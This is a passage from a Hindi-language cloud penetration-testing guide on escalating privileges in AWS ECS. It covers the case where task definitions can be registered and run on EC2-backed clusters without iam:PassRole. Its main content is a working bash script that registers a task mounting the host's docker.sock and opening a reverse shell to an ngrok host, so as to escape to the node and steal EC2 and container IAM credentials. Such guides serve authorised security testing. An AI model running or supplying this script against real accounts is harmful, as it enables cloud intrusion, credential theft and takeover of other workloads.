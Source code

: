 **संभावित प्रभाव:** किसी भी ECS भूमिका को सीधे उन्नत बनाना।

### `ecs:RegisterTaskDefinition`, **`(ecs:RunTask|ecs:StartTask|ecs:UpdateService|ecs:CreateService)`**

यह परिदृश्य पिछले वालों जैसा है, लेकिन **`iam:PassRole`** अनुमति के बिना।\
यह फिर भी दिलचस्प है क्योंकि यदि आप किसी भी अनियमित कंटेनर को चला सकते हैं, भले ही यह एक भूमिका के बिना हो, तो आप **एक विशेषाधिकारी कंटेनर को भागने** के लिए नोड और **EC2 IAM भूमिका** और नोड में चल रही **अन्य ECS कंटेनर भूमिकाएं** चुरा सकते हैं।\
आप यहां तक पहुंच सकते हैं कि आप **अन्य कार्यों को मजबूर कर सकते हैं जिन्हें EC2 इंस्टेंस के अंदर चलाने के लिए** जिनके पास आपके पासवर्ड हैं (जैसा कि [**नोड भूमिका अनुभाग**](aws-ecs-privesc.md#privesc-to-node) में चर्चा की गई है)।

{% hint style="warning" %}
यह हमला केवल तभी संभव है अगर **ECS क्लस्टर EC2** इंस्टेंस का उपयोग कर रहा है और न कि Fargate।
{% endhint %}
```bash
printf '[
{
"name":"exfil_creds",
"image":"python:latest",
"entryPoint":["sh", "-c"],
"command":["/bin/bash -c \\\"bash -i >& /dev/tcp/7.tcp.eu.ngrok.io/12976 0>&1\\\""],
"mountPoints": [
{
"readOnly": false,
"containerPath": "/var/run/docker.sock",
"sourceVolume": "docker-socket"
}
]
}
]' > /tmp/task.json

printf '[
{
"name": "docker-socket",
"host": {
"sourcePath": "/var/run/docker.sock"
}
}
]' > /tmp/volumes.json


aws ecs register-task-definition --family iam_exfiltration \
--cpu 256 --memory 512 \
--requires-compatibilities '["EC2"]' \
--container-definitions file:///tmp/task.json \
--volumes file:///tmp/volumes.json


aws ecs run-task --task-definition iam_exfiltration \
--cluster arn:aws:ecs:us-east-1:947247140022:cluster/ecs-takeover-ecs_takeover_cgidc6fgpq6rpg-cluster \
--launch-type EC2

# You will need to do 'apt update' and 'apt install docker.io' to install docker in the rev shell
```
### `ecs:ExecuteCommand`, `ecs:DescribeTasks,`**`(ecs:RunTask|ecs:StartTask|ecs:UpdateService|ecs:CreateService)`**
